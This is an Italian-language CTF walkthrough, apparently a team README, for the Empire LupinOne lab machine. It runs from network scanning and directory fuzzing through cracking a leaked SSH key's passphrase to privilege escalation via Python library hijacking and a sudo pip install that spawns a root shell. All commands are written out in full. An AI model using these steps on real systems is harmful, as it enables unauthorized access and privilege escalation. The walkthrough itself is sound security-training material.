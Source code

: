 # 🛡️ Empire LupinOne Walkthrough - TeamCyberCerberus

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🕵️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `victim_id_rsa`.

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🧑‍💻 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  wget 192.168.1.8/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Individuato file Python `webbrowser.py`:
  ```bash
  nano /usr/lib/python3.9/webbrowser.py
  ```
  - **Modifica**: aggiunta di `os.system("/bin/bash")`.

#### 🐍 Escalation con script Python
- Escalation dei privilegi:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🎯 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔓 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪
